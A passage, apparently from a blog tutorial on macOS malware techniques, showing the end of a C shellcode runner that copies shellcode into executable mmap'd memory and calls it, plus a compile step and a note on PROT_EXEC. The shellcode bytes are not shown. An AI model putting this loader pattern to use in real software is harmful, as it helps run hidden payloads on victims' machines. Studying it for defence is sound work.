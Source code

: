 ```cpp

  // copy the shellcode into the allocated memory
  memcpy(exec, code, sizeof(code));

  // execute the shellcode
  ((void(*)())exec)();

  // free the allocated memory (optional, since program will exit)
  // munmap(exec, pagesize);

  return 0;
}
```

### demo

Let's go to see everything in action. Compile:    

```bash
clang -o hack hack.c
```

![malware](/assets/images/164/2025-07-08_14-53.png){:class="img-responsive"}     

And run it:    

![malware](/assets/images/164/2025-07-08_14-53_1.png){:class="img-responsive"}     

Why this matters? Modern macOS disables stack execution, so you must use `mmap` with `PROT_EXEC`. If you forget this, you'll get bus error or segmentation fault when trying to run code from the stack or heap.     
